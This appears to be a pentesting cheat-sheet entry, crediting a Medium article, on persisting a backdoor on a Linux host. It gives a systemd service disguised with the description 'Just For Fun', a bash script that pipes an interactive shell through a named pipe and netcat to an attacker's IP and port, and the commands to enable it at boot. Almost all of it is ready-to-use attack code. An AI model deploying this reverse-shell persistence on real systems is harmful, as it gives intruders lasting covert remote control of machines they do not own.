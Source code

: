 https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c

## Systemd with nc openbsd

Service in `/etc/systemd/system`:
```
[Unit]                                                               Description=Just For Fun
After=network.target auditd.service
[Service]
Type=simple
ExecStart=<script_location>
ExecReload=<script_location>
Restart=on-failure
RestartSec=5
[Install]
WantedBy=multi-user.target
```

File in <desired_folder> :
```
#!/bin/bash
FILE=/tmp/f
if [ -f "$FILE" ]; then
/bin/rm /tmp/f
fi
/usr/bin/mkfifo /tmp/f
/bin/cat /tmp/f|/bin/sh -i 2>&1|/bin/nc <ip> <port> >/tmp/f
```

Then :
```
chmod +x <file>
systemctl enable <service>
```